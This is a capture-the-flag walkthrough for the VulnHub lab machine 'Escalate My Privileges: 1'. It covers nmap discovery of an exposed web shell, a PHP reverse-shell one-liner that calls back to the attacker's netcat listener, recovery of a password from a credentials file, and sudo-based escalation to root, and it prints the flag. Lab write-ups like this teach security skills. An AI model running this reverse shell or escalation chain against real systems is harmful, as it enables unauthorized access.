 # Escalate My Privileges: 1

- [Tools](#tools)
- [Gaining Access](#gaining-access)
- [Priviledge Escalation](#priviledge-escalation)

Machine: https://www.vulnhub.com/entry/escalate-my-privileges-1,448/ 

## Tools
1. NMap
2. netcat

## Gaining Access
1. After Running the VM as bridged connection, I checked my gateway page to find IP. In my case ip is `192.168.0.11`.
2. Scan with `NMap` gives some open ports.
3. Nmap with this command `nmap -A 192.168.0.11` gives an url `http://192.168.0.11/phpbash.php`.
4. It’s a shell on that link. We can execute command as user `apache`.
5. Running this command `php -r '$sock=fsockopen("192.168.0.4",1337);exec("/bin/sh -i <&3 >&3 2>&3");'` with my ip port gives a `netcat` shell to my listner `nc -lvnp 1337`.
6. We got shell as `armour`.

## Priviledge Escalation
1. On `/home/armour` directory there is a file named `Credentials.txt`. Inside it we get password `md5(rootroot1)`.
2. Spawn tty shell, convert `md5sum` of the `rootroot1` to use as password. Then login as `armour` with `md5sum` of `rootroot1`.
3. Using `sudo -l` command shows `/bin/bash` could be used to get root shell. 
4. Used `sudo /bin/bash` command to `root`.
5. We can get flag inside `/root/flag.txt` by using command.`cat /root/flag.txt` The flag is  `628435356e49f976bab2c04948d22fe4`.

Author: Zishan Ahamed Thandar
